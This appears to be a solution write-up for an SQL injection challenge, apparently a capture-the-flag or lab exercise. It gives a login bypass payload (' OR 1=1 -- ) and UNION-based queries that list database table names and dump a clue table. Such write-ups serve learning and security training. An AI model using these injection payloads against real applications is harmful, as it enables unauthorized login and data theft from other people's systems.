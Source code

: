 # SQL injection challenge

## Login
**Username:** <code>admin</code>  
**Password:** <code>' OR 1=1 -- </code> (include the space at the end)

## Search Box -- Get table names
**Search Input:** <code>' UNION ALL SELECT table_name, 1, 1 FROM information_schema.tables WHERE table_schema=database() -- </code> (include the space at the end)

## Search Box -- Get Challenge Clue
**Search Input:** <code>' UNION ALL SELECT *, 1 FROM challenge_clue -- </code> (include the space at the end)
